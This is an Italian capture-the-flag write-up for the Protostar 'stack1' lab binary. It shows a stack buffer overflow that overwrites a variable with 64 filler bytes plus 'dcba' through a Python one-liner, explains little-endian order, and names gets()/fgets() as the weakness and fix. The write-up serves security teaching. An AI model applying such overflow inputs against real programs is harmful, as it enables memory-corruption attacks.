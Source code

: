 # Protostar_stack 1 - Buffer overflow

## Obiettivo della sfida
Impostare la variabile _modified_ al valore **0x61626364** a tempo di esecuzione

## Strategia di attacco
Mandiamo in escuzione il **stack1**
```bash
> cd /opt/protostar/bin
> ./stack1 abc
# stampa errore
Try again, you got 0x00000000
```
### Cosa fare
Riempire _buffer_ con 64 caratteri e alla fine appendere i 4 corrispondenti a 0x61626364 essi corrispondono alla stringa **"abcd"**

## Come sfruttare le vulnerabilità
Proviamo ad eseguire
```bash
> /opt/protostar/bin/stack1 'python –c 'print "a" * 64 + "abcd"'' 
# stampa errore
Try again, you got 0x64636261
```
Anche se l'input è stato inserito correttamente appare a rovescio, questo avviene perchè l'architettura Intel è **Little Endian**!
### Istruzioni da eseguire
```bash
> /opt/protostar/bin/stack1 $(python –c 'print "a" * 64 + "dcba"')
# sfida vinta
```
## Debolezze
1. `gets()` non effettua controlli sul buffer overflow

## Mitigazione
1. sostituire la funzione`gets()` con `fgets()`
